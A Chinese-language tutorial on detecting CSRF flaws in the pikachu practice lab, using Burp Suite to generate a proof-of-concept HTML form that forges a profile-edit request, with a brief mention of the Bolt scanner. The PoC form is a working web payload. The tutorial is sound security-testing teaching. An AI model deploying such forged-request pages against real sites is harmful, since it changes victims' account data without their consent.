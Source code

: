 # CSRF漏洞检测

# CSRF漏洞检测

> 用 pikachu靶场做演示

## 半自动检测

### 用BurpSuite检测

登录账号

![](https://pic.imgdb.cn/item/64c8d71d1ddac507cc028a46.jpg)

点击**“修改个人信息”**，开启抓包，将性别boy改成girl。
![](https://pic.imgdb.cn/item/64c8e0a61ddac507cc15038a.jpg)

鼠标右键选择“Engagement tools”——“Engagement tools”
![](https://pic.imgdb.cn/item/64c8e10f1ddac507cc1593e1.jpg)

把生成的html代码复制到新建的html文件中：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.31.6/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="girl" />
      <input type="hidden" name="phonenum" value="18626545453" />
      <input type="hidden" name="add" value="chain" />
      <input type="hidden" name="email" value="vince&#64;pikachu&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

丢掉之前抓到的包(也就是性别还是boy)，关闭抓包，把html文件拖到浏览器中：
![](https://pic.imgdb.cn/item/64c8e27d1ddac507cc181ca9.jpg)

点击按钮，可以看到性别变成了girl，说明存在CSRF漏洞。
![](https://pic.imgdb.cn/item/64c8e2d41ddac507cc18ae63.jpg)

​	

### CSRF Tester

​	

​	

## 全自动化

### Bolt

```
bolt.py -u http://xxxx
```


